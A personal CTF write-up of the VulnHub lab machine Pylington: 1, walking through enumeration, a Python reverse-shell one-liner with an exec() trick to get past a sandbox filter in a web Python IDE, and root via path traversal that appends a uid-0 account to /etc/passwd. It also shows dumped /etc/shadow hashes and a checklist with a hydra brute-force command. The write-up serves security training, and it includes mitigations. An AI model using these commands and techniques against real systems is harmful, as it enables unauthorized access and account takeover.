







### [VulnHub - Pylington: 1](https://www.vulnhub.com/entry/pylington-1,684/)

### [YouTube - # Pylington: 1 || VulnHub Complete Walkthrough](https://www.youtube.com/watch?v=6BSN6CxFevs)


---


# Installation 🔌💻🖥️🛜💾🔌

This time we are dealing with a `.ova` file and not a `vmdk`, so we will import the virtual machine instead of creating a new one.
- Click on Tools => Import Appliance. Keyboard Shortcut is `Ctrl + I`
- Make sure to use Host Only Adapter.




---
---

# Enumeration

## netdiscover & nmap


```bash
# sudo netdiscover -i eth1
# sudo netdiscover -i eth1 -r 192.168.56.0/24
 5 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 300                                                                                            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.2    08:00:27:dd:ed:49      1      60  PCS Systemtechnik GmbH                                                                                 192.168.56.33   0a:00:27:00:00:07      1      60  Unknown vendor                                                                                         192.168.56.35   08:00:27:2a:57:e0      3     180  PCS Systemtechnik GmbH                                                                                   
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A 192.168.56.35 -p-             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-20 14:30 CEST
Nmap scan report for 192.168.56.35
Host is up (0.0030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   3072 bf:ba:23:4e:69:37:69:9f:23:ae:21:35:98:4d:39:fa (RSA)
|   256 ed:95:53:52:ef:70:1f:c0:0e:3c:d8:be:35:fc:3a:93 (ECDSA)
|_  256 2d:b8:b0:88:52:83:7b:00:47:31:a4:76:2b:3d:7d:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Unix) mod_wsgi/4.7.1 Python/3.9)
|_http-generator: Jekyll v4.1.1
|_http-title: Pylington Cloud | The best way to run Python.
|_http-server-header: Apache/2.4.46 (Unix) mod_wsgi/4.7.1 Python/3.9
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries 
|_/register /login /zbir7mn240soxhicso2z
MAC Address: 08:00:27:2A:57:E0 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   3.03 ms 192.168.56.35

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.39 seconds

```

We can confirm that the following ports are available
- 22/TCP - SSH - OpenSSH 8.5 (protocol 2.0)
- 80/TCP - HTTP - Apache httpd 2.4.46 ((Unix) mod_wsgi/4.7.1 Python/3.9)


Let's visit the website!


Page Source Code, doesn't have a clue... But we do have a ``robots.txt``
```txt
User-agent: *
Disallow: /register
Disallow: /login
Disallow: /zbir7mn240soxhicso2z
```

This is actually interesting:
- Register is offline
- login seems functionable



- /zbir7mn240soxhicso2z - Contains a page with username and password
	- Username: steve
	- Password: bvbkukHAeVxtjjVH




Now we have login as ``steve``.  Click on "Welcome back steve"

We now get access to a Browser Based Super Secret Python IDE?


``http://192.168.56.35/n8pji3yeaccqvek2uzfc``

## GoBuster

The mandatory Gobuster process...

```bash
# gobuster dir -u http://192.168.56.35/ -w /usr/share/wordlists/dirb/common.txt  
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.35 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.35
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 993]
/.htpasswd            (Status: 403) [Size: 993]
/.hta                 (Status: 403) [Size: 993]
/~mail                (Status: 403) [Size: 993]
/~nobody              (Status: 403) [Size: 993]
/~bin                 (Status: 403) [Size: 993]
/~root                (Status: 403) [Size: 993]
/~ftp                 (Status: 403) [Size: 993]
/assets               (Status: 301) [Size: 236] [--> http://192.168.56.35/assets/]
/favicon.ico          (Status: 200) [Size: 15406]
/index.html           (Status: 200) [Size: 4065]
/login                (Status: 200) [Size: 3476]
/register             (Status: 301) [Size: 238] [--> http://192.168.56.35/register/]
/robots.txt           (Status: 200) [Size: 83]
Progress: 4614 / 4615 (99.98%)
===============================================================                                                                                          Finished                                                                                                                                                 ===============================================================
```

---
---

# Foothold 🦶

[This GitHub repository - swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) contains a bunch of payloads for penetration testing. If you go to Methodology and Resources
/Reverse Shell Cheatsheet.md, then you python then you will get this [website](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python) , take the 2nd option of the python script in the IPv4 category.

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

- paste this to the "Program" inside the secret Python IDE
- remove `python -c `
- add your IP address and the port of your liking... I go with port 1337 😉😜



- Before anything, we should start net cat and start listening 🎧🔈🐈‍⬛🐈

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337    
```

### Oh no! H4CK3R AL3R7
H4CK3R AL3R7!!! Malicious program detected by the sandbox

Anyway, there might be a hint about using exec in the sentence "This way attackers won't be able to <u>exec</u>ute anything malicious :-)"

We do what is called an "Overlay"
- move our script to "Standard Output"
	- remove the single-quotes
- In Program we add
```python
i = input ("")
exec(i)
```




```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337                
listening on [any] 1337 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.35] 42312
sh-5.1$ 
# Let's add a fully interactive shell
python3 -c "import pty; pty.spawn('/bin/bash')"

# export TERM=xterm
[http@archlinux /]$ export TERM=xterm                                                           
export TERM=xterm
[http@archlinux /]$ whoami
whoami                                                                                          
http                                                                                                       
[http@archlinux /]$ id                                                                                           
id                                                                                                                              
uid=33(http) gid=33(http) groups=33(http)                                                                                       
[http@archlinux /]$                                                                                                                       
```

## Time to get the User Flag 🚩

```bash
# We cannot access the User Flag from the get go
# But there is a file called typing.cc, it's kind of a game - If you match the text, we will get the password 
[http@archlinux home]$ cd py
cd py
[http@archlinux py]$ ls
ls
password.txt  secret_stuff  typing  typing.cc  user.txt
[http@archlinux py]$ cat typing.cc
cat typing.cc
#include <iostream>
#include <string>
#include <iterator>
#include <fstream>
#include <algorithm>

int main(){
    std::cout<<"Let's play a game! If you can type the sentence below, then I'll tell you my password.\n\n";

    std::string text="the quick brown fox jumps over the lazy dog";

    
    std::cout<<text<<'\n';

    std::string line;
    std::getline(std::cin,line);

    if(line==text){
        std::ifstream password_file("/home/py/password.txt");
        std::istreambuf_iterator<char> buf_it(password_file),buf_end;
        std::ostreambuf_iterator<char> out_it (std::cout);
        std::copy(buf_it,buf_end,out_it);
    }
    else{
        std::cout<<"WRONG!!!\n";
    }
}
[http@archlinux py]$
```

```bash
# How to Type
[http@archlinux py]$ ./typing                                                                                                                            ./typing
Let's play a game! If you can type the sentence below, then I'll tell you my password.

the quick brown fox jumps over the lazy dog
the quick brown fox jumps over the lazy dog
the quick brown fox jumps over the lazy dog
54ezhCGaJV
[http@archlinux py]$ 

```

#### Password: 54ezhCGaJV

But what is the Username? py? I guess so!

### SSH - Secure Shell

Now we have a combination of username and password, we can try connect with SSH

```bash
# SSH connection to target machine as 'py'
ssh py@192.168.56.35
The authenticity of host '192.168.56.35 (192.168.56.35)' can't be established.
ED25519 key fingerprint is SHA256:k14DTtUUFqwn+eAH6UKgUapJszCwsRlyQWSL8/968sA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.35' (ED25519) to the list of known hosts.
py@192.168.56.35's password: 54ezhCGaJV
Last login: Sat Apr 17 00:24:09 2021 from 192.168.8.101
[py@archlinux ~]$ 
# User Flag 🚩
[py@archlinux ~]$ ls
password.txt  secret_stuff  typing  typing.cc  user.txt
[py@archlinux ~]$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee 
[py@archlinux ~]$ 
```


---
---

# Privilege Escalation

```bash
# if we check the directory of secret_stuff, there is some code with the name of backup.cc
[py@archlinux ~]$ cd secret_stuff/
[py@archlinux secret_stuff]$ ls
backup  backup.cc
[py@archlinux secret_stuff]$ cat backup.cc
#include <iostream>
#include <string>
#include <fstream>

int main(){
    std::cout<<"Enter a line of text to back up: ";
    std::string line;
    std::getline(std::cin,line);
    std::string path;
    std::cout<<"Enter a file to append the text to (must be inside the /srv/backups directory): ";
    std::getline(std::cin,path);

    if(!path.starts_with("/srv/backups/")){
        std::cout<<"The file must be inside the /srv/backups directory!\n";
    }
    else{
        std::ofstream backup_file(path,std::ios_base::app);
        backup_file<<line<<'\n';
    }

    return 0;


}
[py@archlinux secret_stuff]$ 

```

### It seems, that this code  have some kind of path/directory traversal vulnerability

```bash
# Let's run the program and write my name for proof
[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: Danielkaas94
# We add the path "/srv/backups/../../etc/passwd"                                                                            
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/passwd

# Let's check the content of /etc/passwd
[py@archlinux secret_stuff]$ cat /etc/passwd 
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
py:x:1000:1000::/home/py:/bin/bash
git:x:974:974:git daemon user:/:/usr/bin/git-shell
redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
Danielkaas94
[py@archlinux secret_stuff]$
# As you can see, my name Danielkaa94 has been added at the end of the Linux password file
# we can somehow create a new account on this machine with root access/ high Privilege user

# OpenSSL - We will create the hash with a pair of username and password
# username: daacals
# password: password
# openssl passwd -1 -salt daacals password
┌──(kali㉿kali)-[~]
└─$ openssl passwd -1 -salt daacals password
$1$daacals$nkjJrhh3mq1CYoF/hul/w.

# Now open mousepad and modify our line we have to insert in /etc/passwd
# Use the string of root:x:0:0::/root:/bin/bash for merging
# Replace root with the username and x with the generated salted hash 🧂
# The final string of text should like something like this 
daacals:$1$daacals$nkjJrhh3mq1CYoF/hul/w.:0:0::/root:/bin/bash

# Now let's use the backup script from before! But this time we paste our newly created string
[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: daacals:$1$daacals$nkjJrhh3mq1CYoF/hul/w.:0:0::/root:/bin/bash
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/passwd
[py@archlinux secret_stuff]$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
py:x:1000:1000::/home/py:/bin/bash
git:x:974:974:git daemon user:/:/usr/bin/git-shell
redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
Danielkaas94
daacals:$1$daacals$nkjJrhh3mq1CYoF/hul/w.:0:0::/root:/bin/bash
[py@archlinux secret_stuff]$

# Change user with the su command
# And now! We can get the root flag! 🚩
[py@archlinux secret_stuff]$ su daacals
Password: 
[root@archlinux secret_stuff]# ls
backup  backup.cc
[root@archlinux secret_stuff]# cd /root
[root@archlinux ~]# ls
root.txt
[root@archlinux ~]# cat root.txt 
63a9f0ea7bb98050796b649e85481845
[root@archlinux ~]# 
```




---
---

## BONUS - /etc/shadow 🫥🤫

```bash
# Getting all the hashes from /etc/shadow

[root@archlinux ~]# cat /etc/shadow
root:$6$Y0ePwANU17u5voaz$5fJB8kTenWoG/3nMz4firfTNfem47ppIiAW2QIX3CMZMEM3wBQtiCNlFGYH9lFHXfmBJ7KJdrAi.Mt9FEkIJt/:18724::::::
bin:!*:18724::::::
daemon:!*:18724::::::
mail:!*:18724::::::
ftp:!*:18724::::::
http:!*:18724::::::
nobody:!*:18724::::::
dbus:!*:18724::::::
systemd-journal-remote:!*:18724::::::
systemd-network:!*:18724::::::
systemd-oom:!*:18724::::::
systemd-resolve:!*:18724::::::
systemd-timesync:!*:18724::::::
systemd-coredump:!*:18724::::::
uuidd:!*:18724::::::
dhcpcd:!*:18724::::::
py:$6$.slQiQ.cX8Z2bwQ6$Mp3aOmci493RLaqoEr9QXkh4FSKKIJpv72IuUqj4MT.3ArPDVmAFPdvU52ehz481DKDH1BZFRsbQkfafw7kTZ/:18726:0:99999:7:::
git:!*:18724::::::
redis:!*:18724::::::

[root@archlinux ~]# awk -F: '/^root/{print $2}' /etc/shadow
$6$Y0ePwANU17u5voaz$5fJB8kTenWoG/3nMz4firfTNfem47ppIiAW2QIX3CMZMEM3wBQtiCNlFGYH9lFHXfmBJ7KJdrAi.Mt9FEkIJt/


```

---
# Short technical summary (safe / non-actionable)

**Privilege escalation (summary)**

- **Vulnerable component:** a local backup binary that appends user-supplied text to a file under `/srv/backups/`.
- **Root cause:** insufficient validation — the code checked the path string prefix but didn’t canonicalize or resolve `..` sequences.
- **Impact:** allowed directory-traversal writes to arbitrary files the service user could write to. Using that, I injected an entry that resulted in a high-privilege account on the box and obtained the root flag.
- **Mitigations:** canonicalize/resolve paths and verify the resolved path is inside the allowed directory; run services with least privilege; avoid writing to system-critical files from user-controllable inputs; use capability separation and file-permission hardening.

---
---

# VulnHub Pentest Notes - [Pylington: 1]  
🔍 **Target IP:** `192.168.56.35`  
🖥 **OS:** Linux  
📅 **Date:** 2025-10-20  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/pylington-1,684/)  
📌 [YouTube Walkthrough](https://www.youtube.com/watch?v=6BSN6CxFevs)  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

